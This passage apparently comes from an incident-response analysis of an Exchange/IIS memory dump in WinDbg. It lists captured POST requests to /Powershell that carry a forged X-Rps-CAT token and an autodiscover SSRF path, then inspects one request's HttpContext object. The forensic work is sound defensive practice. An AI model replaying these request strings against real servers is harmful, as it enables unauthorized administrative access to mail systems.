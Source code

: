 ```
0:000> !Mex.AspxPagesExt
 Address          Completed Timeout Time (secs) ThreadId ReturnCode Verb Url
 0000014e39cb2408       yes     110                             200 POST /Powershell?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBBUJhc2ljTBFKb25lc0Bjb250b3NvLmNvbVUsUy0xLTUtMjEtMjk1NTk1NDc1My0yMDg2NzE2ODA4LTU2MzYyMzM3Ni01MDBHBAAAAAcAAAAHUy0xLTEtMAcAAAAHUy0xLTUtMgcAAAAIUy0xLTUtMTEHAAAACFMtMS01LTE1RQAAAAA=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu
 0000014e3a453e40       yes     110                             200 POST /Powershell?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBBUJhc2ljTBFKb25lc0Bjb250b3NvLmNvbVUsUy0xLTUtMjEtMjk1NTk1NDc1My0yMDg2NzE2ODA4LTU2MzYyMzM3Ni01MDBHBAAAAAcAAAAHUy0xLTEtMAcAAAAHUy0xLTUtMgcAAAAIUy0xLTUtMTEHAAAACFMtMS01LTE1RQAAAAA=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu
 0000014e3a457248       yes     110                             200 POST /Powershell?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBBUJhc2ljTBFKb25lc0Bjb250b3NvLmNvbVUsUy0xLTUtMjEtMjk1NTk1NDc1My0yMDg2NzE2ODA4LTU2MzYyMzM3Ni01MDBHBAAAAAcAAAAHUy0xLTEtMAcAAAAHUy0xLTUtMgcAAAAIUy0xLTUtMTEHAAAACFMtMS01LTE1RQAAAAA=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu
 0000014e3a47f278       yes     110                             200 POST /Powershell?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBBUJhc2ljTBFKb25lc0Bjb250b3NvLmNvbVUsUy0xLTUtMjEtMjk1NTk1NDc1My0yMDg2NzE2ODA4LTU2MzYyMzM3Ni01MDBHBAAAAAcAAAAHUy0xLTEtMAcAAAAHUy0xLTUtMgcAAAAIUy0xLTUtMTEHAAAACFMtMS01LTE1RQAAAAA=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu
 0000014e3a4dc2d0       yes     110                             200 POST /Powershell?X-Rps-CAT=VgEAVAdXaW5kb3dzQwBBBUJhc2ljTBFKb25lc0Bjb250b3NvLmNvbVUsUy0xLTUtMjEtMjk1NTk1NDc1My0yMDg2NzE2ODA4LTU2MzYyMzM3Ni01MDBHBAAAAAcAAAAHUy0xLTEtMAcAAAAHUy0xLTUtMgcAAAAIUy0xLTUtMTEHAAAACFMtMS01LTE1RQAAAAA=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu
5 contexts found (5 displayed).
   AS == possibly async request
   SL == session locked
```

The **`!DisplayObj`** (or **`!do2`**) command displays the structure and details of CLR objects in memory, which we will be doing to inspect **`0x0000014e39cb2408`**

```
0:000> !DisplayObj 0x0000014e39cb2408
0x0000014e39cb2408 System.Web.HttpContext
[statics]
  0000  _asyncAppHandler                                          : NULL
  0008  _appInstance                                              : NULL
  0010  _handler                                                  : NULL
  0018  _request                                                  : 0000014e39cb25c8 (System.Web.HttpRequest)
  0020  _response                                                 : 0000014e39cb2750 (System.Web.HttpResponse)
  0028  _server                                                   : NULL
  0030  _traceContextStack                                        : NULL
  0038  _topTraceContext                                          : NULL
  0040  _items                                                    : NULL
  0048  _errors                                                   : NULL
  0050  _tempError                                                : NULL
  0058  _principalContainer                                       : 0000014e39cb2b60 (System.Web.RootedObjects)
  0060  _Profile                                                  : NULL
  0068  _wr                                                       : 0000014e39cb1bf8 (System.Web.Hosting.IIS7WorkerRequest)
  0070  _configurationPath                                        : NULL
  0078  _dynamicCulture                                           : 0000014e33528ab0 (System.Globalization.CultureInfo)
  0080  _dynamicUICulture                                         : 0000014e33528ab0 (System.Globalization.CultureInfo)
  0088  _handlerStack                                             : NULL
  0090  _pageInstrumentationService                               : NULL
  0098  _webSocketRequestedProtocols                              : NULL
  00a0  _timeoutCancellationTokenHelper                           : 0000014e3414e548 (System.Web.Util.CancellationTokenHelper)
  00a8  _timeoutLink                                              : NULL
  00b0  _thread                                                   : NULL
```
